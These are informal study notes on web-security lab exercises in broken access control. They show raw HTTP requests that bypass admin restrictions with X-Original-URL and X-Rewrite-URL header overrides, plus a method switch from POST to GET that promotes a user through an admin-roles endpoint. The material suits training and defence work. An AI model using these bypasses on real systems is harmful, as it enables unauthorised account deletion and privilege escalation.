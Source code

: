 ======================================================
Broken Acess contorl 
======================================================
Lab: URL-based access control can be circumvented 


POST /admin/deleteuser  -> deny  

POST /
X-Original-URL : /admin/deleteuser
or                                    -> allow 
X-Rewrite-URL  : /admin/deleteuser  

exmaple  

GET /?username=carlos HTTP/1.1
Host: 0ad70029038d7aee82b64c7b0045004d.web-security-academy.net
X-Original-URL: /admin/delete
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad70029038d7aee82b64c7b0045004d.web-security-academy.net/login
Connection: close
Cookie: session=lUPLpLcsC9WIPQ3cwJC2N1WXZ4Ot1vWM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

========================================================================
Lab: Method-based access control can be circumvented 
========================================================================
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: 0aef008f04a821bd848f271f00770024.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0aef008f04a821bd848f271f00770024.web-security-academy.net
Connection: close
Referer: https://0aef008f04a821bd848f271f00770024.web-security-academy.net/admin
Cookie: session=keghOyErSrtzBlbEwiT1JOaFpZvZLuZP
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1



by change the POST method to getmethod and mulnaplite the ?usernmae from clarlos to weiner 
which is lead to promte the weiner user

=====================================================================================
Broken access control resulting from URL-matching discrepancies
=====================================================================================
